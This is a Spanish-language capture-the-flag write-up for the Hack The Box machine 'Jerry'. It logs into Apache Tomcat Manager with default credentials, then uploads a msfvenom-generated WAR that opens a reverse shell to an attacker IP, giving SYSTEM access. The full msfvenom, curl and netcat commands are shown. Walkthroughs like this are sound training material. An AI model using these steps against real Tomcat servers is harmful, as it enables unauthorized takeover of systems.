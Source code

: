 # Foothold:

Encontramos en un inicio que tenemos un gestor de aplicaciones web Apache Tomcat, para esto googleando un poco averiguamos que el Manager App es a donde debemos apuntar para obtener un posible escalamiento con una cuenta con privilegios administrativos.

![[Pasted image 20210530203354.png]]


# Bypassing Tomcat
Ya que no tenemos credenciales aún, googleamos por posibles credenciales por defecto. Encontramos un repositorio con un recopilado especifico para Apache Tomcat.

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

![[Pasted image 20210530204020.png]]
![[Pasted image 20210530204056.png]]
![[Pasted image 20210530204719.png]]
En un inicio ingresamos una de las contraseñas por defecto de la lista y vemos que el mensaje de error nows muestra un usuario y contraseña por default:
username : tomcat
password : s3cret

Ahora notamos que no podemos reingresar al login del tomcat, esto se soluciona de una manera clara y sencilla, usemos un navegador de incognito, el cual no almacena ninguna cookie ni credenciales en cache:

![[Pasted image 20210530210324.png]]

![[Pasted image 20210530210347.png]]

Ahora que tenemos acceso al panel de control del tomcat podemos empezar a testear, para ello googleamos por posibles exploits para tomcat y encontramos que una de las maneras para obtener una shell remota es subir una aplicacion java, en este caso un .war malicioso.

![[Pasted image 20210530210730.png]]

## Creación del war malicioso:

Para este paso utilizaremos una herramienta del modulo de metasploit llamada __msfvenom__, para lo cual deberemos especificarle lo siguiente: 
- Payload: `-p java/jsp_shell_reverse_tcp`
- Listen Host: `LHOST=<nuestra ip asignada en la red de HTB>`
- Listen Port: `LPORT=8000`
- Formato: `-f war`
- Output name: `-o retr0.war`

root jerry # msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=8000 -f war -o retr0.war 

![[Pasted image 20210530212700.png]]

Lo subimos mediante la interfaz gráfica:

![[Pasted image 20210530212441.png]]

![[Pasted image 20210530212911.png]]

## Reverse shell:
Ahora que ya tenemos nuestra app maliciosa subida, podemos usar o bien la interfaz gráfica o la consola para poder accede a ella y obtener nuestra shell reversa.

El url al que debemos ingresar será el siguiente:

http://10.10.10.95:8080/retr0/

En esta ocasion utilizaré la herramienta curl para hacer la petición desde la terminal y ver paralelamente cualquier cambio en una misma ventana, para esto visualizaré la estructura de los archivos de nuestro war malicioso con el comando:

`root jerry # jar -ft retr0.war`

De esta manera nuestro comando curl será: 

`curl http://10.10.10.95:8080/retr0/hulsxiaggcmweak.jsp`

Y usaremos netcat con los parametros:
- `-l`  -> local
- `-n` -> resolver unicamente direcciones IP y no DNS
- `-v` -> verbose.
- `-p` -> puerto
para tener conexión de escucha en el puerto 8000 e interactuar con la caja:

`nc -lvnp 8000`

![[Pasted image 20210530213443.png]]

Ahora verificamos el usuario y privilegios que este tiene:

![[Pasted image 20210530214601.png]]

![[Pasted image 20210530214626.png]]

Vemos que somos __NT AUTHORITY/SYSTEM__, el usuario sistema con privilegios totales en la máquina.

Ahora el juego no acaba ahí debemos buscar las flags, para ello vamos a la carpeta  __C:\\Users\\__ y visualizamos que solo tenemos el usuario __Administrador__ habilitado, ingresamos a la carpeta _Desktop_ y vemos que el creador nos dejó un regalo:
![[Pasted image 20210530215126.png]]